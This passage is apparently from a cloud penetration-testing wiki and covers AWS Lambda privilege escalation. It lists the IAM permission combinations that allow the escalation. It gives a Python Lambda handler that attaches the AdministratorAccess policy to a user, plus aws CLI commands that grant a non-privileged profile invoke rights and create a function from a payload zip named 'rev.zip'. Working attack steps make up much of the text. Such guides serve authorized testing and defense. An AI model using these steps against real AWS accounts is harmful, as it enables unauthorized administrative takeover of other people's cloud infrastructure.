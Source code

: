 You could also **abuse the lambda role permissions** from the lambda function itself.\
If the lambda role had enough permissions you could use it to grant admin rights to you:

```python
import boto3
def lambda_handler(event, context):
    client = boto3.client('iam')
    response = client.attach_user_policy(
        UserName='my_username',
        PolicyArn='arn:aws:iam::aws:policy/AdministratorAccess'
    )
    return response
```

**Potential Impact:** Direct privesc to the arbitrary lambda service role specified.

{% hint style="danger" %}
Note that even if it might looks interesting **`lambda:InvokeAsync`** **doesn't** allow on it's own to **execute `aws lambda invoke-async`**, you also need `lambda:InvokeFunction`
{% endhint %}

### `iam:PassRole`, `lambda:CreateFunction`, `lambda:AddPermission`

Like in the previous scenario, you can **grant yourself the `lambda:InvokeFunction`** permission if you have the permission **`lambda:AddPermission`**

```bash
# Check the previous exploit and use the following line to grant you the invoke permissions
aws --profile "$NON_PRIV_PROFILE_USER" lambda add-permission --function-name my_function \
   --action lambda:InvokeFunction --statement-id statement_privesc --principal "$NON_PRIV_PROFILE_USER_ARN"
```

**Potential Impact:** Direct privesc to the arbitrary lambda service role specified.

### `iam:PassRole`, `lambda:CreateFunction`, `lambda:CreateEventSourceMapping`

A user with the **`iam:PassRole`, `lambda:CreateFunction`, and `lambda:CreateEventSourceMapping`** (and possibly `dynamodb:PutItem` and `dynamodb:CreateTable`) permissions, but **without** the `lambda:InvokeFunction` permission, can escalate privileges by **passing an existing IAM role to a new Lambda function** that includes code to import the relevant AWS library to their programming language of choice, then using it perform actions of their choice. They then would need to either **create a DynamoDB table or use an existing one**, to **create an event source mapping for the Lambda function pointing to that DynamoDB table**. Then they would need to either put an item into the table or wait for another method to do so that the **Lambda function will be invoked**.

```bash
aws lambda create-function --function-name my_function \
    --runtime python3.6 --role <arn_of_lambda_role> \
    --handler lambda_function.lambda_handler \
    --zip-file fileb://rev.zip
```

Where the **code** in the python file would **utilize the targeted role**. An example would be the same script used in previous method.
